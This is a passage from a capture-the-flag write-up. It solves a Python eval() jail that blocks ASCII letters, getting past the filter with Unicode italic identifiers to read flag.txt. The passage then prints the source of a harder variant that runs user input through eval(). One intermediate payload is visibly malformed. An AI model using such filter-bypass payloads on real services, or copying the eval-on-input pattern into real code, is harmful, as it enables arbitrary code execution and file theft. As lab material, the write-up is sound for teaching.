 Our goal here is to obtain the flag in `flag.txt`, which can be done by making the `eval()` function run our input.

We thought of inputting `print(open("flag.txt").read())` to get its contents. Lets try: 

![try](https://i.imgur.com/Cabg8aS.png)

As expected, it got rejected because there are ascii characters in our input.

We did some refactoring to remove the quotes, so it becomes
`print(chr(chr(chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)
)).read())`

Upon closer research, we found out that python actually supports unicode characters as a part of their source code.

So technically, <br>
`print(open("flag.txt").read())` can be translated into <br> `print(open(str(chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116))).read())` which in Unicode will become <br>
`𝒑𝒓𝒊𝒏𝒕(𝒐𝒑𝒆𝒏(𝒔𝒕𝒓(𝒄𝒉𝒓(102)+𝒄𝒉𝒓(108)+𝒄𝒉𝒓(97)+𝒄𝒉𝒓(103)+𝒄𝒉𝒓(46)+𝒄𝒉𝒓(116)+𝒄𝒉𝒓(120)+𝒄𝒉𝒓(116)
)).𝒓𝒆𝒂𝒅())`

We submitted the latter and we get the following result:
![alttext](https://i.imgur.com/EuZOfW2.png)
The flag is `wgmy{ab065d1d896dcdc228d5f19077501838}`



## Secure Dream 2.0 `Misc` <a name="secdreamtwo"></a>
![secd2](https://i.imgur.com/EcCijKm.png)
Similar to above situation, expect with a small twist ~
The server updated its source code to this:
```python=
#!/usr/bin/env python3
# server.py
print('''\033[94m
♡ ☆ .♡‧₊˚
╭◜◝ ͡ ◜◝╮  ㅤ ╭◜◝ ͡ ◜◝╮.
(             )  ♡   (             )☆ ♡
╰◟◞ ͜ ◟◞╭◜◝ ͡ ◜◝╮ ͜ ◟◞╯♡
. ☆  ㅤㅤ(                )☆ ♡
♡ 　      ╰◟◞ ͜ ◟◞╯ . ☆

        [Secure Dream v2.0]
\033[0m''')

payload = input("What is your dream in life?\n")
# More secure?
if any(filter(lambda c: c in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"\'+', payload)):
        print("\nA𝒘𝒘... W𝒆 𝒅𝒐𝒏'𝒕 𝒖𝒏𝒅𝒆𝒓𝒔𝒕𝒂𝒏𝒅 𝒚𝒐𝒖𝒓 𝒅𝒓𝒆𝒂𝒎 :(")
else:
        eval(payload)
```
